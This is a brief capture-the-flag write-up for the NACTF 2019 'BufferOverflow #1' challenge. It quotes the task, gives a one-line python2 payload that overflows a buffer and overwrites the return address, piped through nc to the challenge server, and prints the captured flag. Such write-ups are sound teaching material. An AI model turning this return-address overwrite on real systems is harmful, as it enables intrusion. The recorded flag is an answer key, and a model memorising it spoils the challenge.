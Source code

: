 # BufferOverflow #1

## Binary Exploitation - Points: 200

> The close cousin of a website for "Question marked as duplicate" - part 2!
>
> 
>
> Can you redirect code execution and get the flag?
>
> 
>
> Connect at `shell.2019.nactf.com:31462`
>
> [bufover-1.c](bufover-1.c)
>
> [bufover-1](bufover-1)
>

	$ python2 -c 'print("A"*28+"\xb2\x91\x04\x08")' | nc ingress.cluster.nactf.com 31462

flag: `nactf{pwn_31p_0n_r3t_iNylg281}`
